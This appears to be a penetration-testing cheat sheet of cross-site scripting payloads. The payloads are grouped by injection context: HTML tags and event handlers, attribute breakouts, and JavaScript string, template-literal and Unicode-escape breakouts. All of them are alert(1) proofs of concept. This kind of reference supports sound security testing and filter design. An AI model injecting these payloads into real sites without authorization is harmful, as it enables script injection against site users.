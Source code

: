
## Cross-Site Scripting (XSS)

### XSS Contexts & Payloads

#### HTML Context

```html
<!-- Basic -->
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>

<!-- Event handlers -->
<div onclick=alert(1)>Click</div>
<input onfocus=alert(1) autofocus>
<select onchange=alert(1)><option>1<option>2</select>
<textarea onkeyup=alert(1)></textarea>

<!-- Less common tags -->
<details open ontoggle=alert(1)>
<video src=x onerror=alert(1)>
<audio src=x onerror=alert(1)>
<marquee onstart=alert(1)>
```

#### Attribute Context

```html
<!-- Breaking out of attributes -->
"><script>alert(1)</script>
" onclick=alert(1) x="
" onmouseover=alert(1) x="
"><img src=x onerror=alert(1)>

<!-- Without quotes -->
onclick=alert(1)//
onmouseover=alert(1)//
```

#### JavaScript Context

```javascript
// Breaking out of strings
'; alert(1); //
'; alert(1); var x='
\'; alert(1); //
</script><script>alert(1)</script>

// Template literals
${alert(1)}
`${alert(1)}`

// Unicode escapes
\u003cscript\u003ealert(1)\u003c/script\u003e
```
